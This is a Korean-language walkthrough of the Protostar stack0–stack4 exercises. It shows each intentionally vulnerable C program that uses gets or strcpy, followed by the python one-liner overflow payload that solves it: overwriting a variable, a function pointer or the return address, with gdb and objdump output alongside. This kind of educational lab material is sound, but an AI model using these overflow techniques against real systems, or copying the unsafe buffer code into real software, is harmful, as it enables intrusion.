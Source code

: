 ### 설치 방법

> * protostar vm on parallels
> * root/godmod and ifconfig

### Stack0

> /opt/protostar/bin/stack0

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

알아야하는 것 : *parameter passing to gets()*, *order of local parameters on the stack*, *command line python script* 

```
$ (python -c 'print "A"*64+"BBBB"';cat)|./stack0
you have changed the 'modified' variable
```

### Stack1

> /opt/protostar/bin/stack1

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

알아야하는 것 : *endian in memory*

```
$ ./stack1 `python -c 'print "A"*64+"\x64\x63\x62\x61"'`
you have correctly got the variable to the right value
```

### Stack2

> /opt/protostar/bin/stack2

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

알아야하는 것 : *shell variable*, *env variable*

```
$ GREENIE=`python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"'`
$ export GREENIE
$ ./stack2
you have correctly modified the variable
```

### Stack3

> /opt/protostar/bin/stack3

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

알아야하는 것 : *getting address of the function*, *objdump*

```
$ objdump -d ./stack3 | grep win
08048424 <win>:
$ (python -c 'print "A"*64+"\x24\x84\x04\x08"';cat)|./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

### Stack4

> /opt/protostar/bin/stack4

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

알아야하는 것 : *gdb*, *make eip value modified*, *assembly lea    0x10(%esp),%eax*

```
$ scp user@10.211.55.5:/opt/protostar/bin/stack4 .

gef➤  x/64x $esp
0xffffcf00: 0xffffffff  0xffffcf2e  0xf7e1ec34  0xf7e44fe3
0xffffcf10: 0x00000000  0x080495ec  0xffffcf28  0x080482e8
0xffffcf20: 0xffffd1c9  0x080495ec  0xffffcf58  0x08048449
0xffffcf30: 0x08048430  0x08048340  0x00000000  0xf7e4519d
0xffffcf40: 0xf7fbb3c4  0xf7ffd000  0x0804843b  0xf7fbb000
0xffffcf50: 0x08048430  0x00000000  0x00000000  0xf7e2bad3
0xffffcf60: 0x00000001  0xffffcff4  

$ebp   : 0xffffcf58

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEE


gef➤  x/64x $esp
0xffffcf00: 0xffffcf10  0xffffcf2e  0xf7e1ec34  0xf7e44fe3
0xffffcf10: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf20: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf30: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf40: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf50: 0x42424242  0x43434343  0x44444444  0x45454545
0xffffcf60: 0x00000000  0xffffcff4  

$ objdump -d stack4 | grep win
080483f4 <win>:
$ (python -c 'print "A"*64+"BBBBCCCC"+"DDDD"+"\xf4\x83\x04\x08"';cat)|./stack4
code flow successfully changed
```
